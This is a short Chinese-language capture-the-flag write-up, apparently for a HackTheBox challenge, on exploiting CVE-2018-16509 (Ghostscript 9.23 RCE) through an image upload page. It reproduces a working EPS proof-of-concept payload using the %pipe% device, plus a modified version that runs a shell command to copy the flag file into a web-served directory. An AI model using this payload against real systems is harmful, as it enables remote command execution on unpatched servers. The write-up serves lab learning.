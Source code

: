 ## 結論

練習：CVE-2018-16509

(ghostscript-9.23 RCE)

## 打開網站

是一個給你上傳的頁面

![image](./img/1.PNG)

## 漏洞

抓檔案下來，可以看到 Dockerfile 有 `ghostscript-9.23`

google 一下 `ghostscript-9.23 exploit`

會找到一個 github ：https://github.com/farisv/PIL-RCE-Ghostscript-CVE-2018-16509

所以就直接用這個漏洞即可

## 作法

因為程式碼是有提供的，所以如下圖，知道 FLAG 在 `/app/flag` ，印出來即可

![image](./img/11.PNG)

底下是 github 的 poc
```
%!PS-Adobe-3.0 EPSF-3.0
%%BoundingBox: -0 -0 100 100

userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%touch /tmp/got_rce) currentdevice putdeviceprops
```

改一下

```
%!PS-Adobe-3.0 EPSF-3.0
%%BoundingBox: -0 -0 100 100

userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe% cat /app/flag >> /app/application/static/assets/flag) currentdevice putdeviceprops
```

## 參考

- [[HTB] petpet rcbee](https://1dayluo.github.io/post/htb-petpet-rcbee/)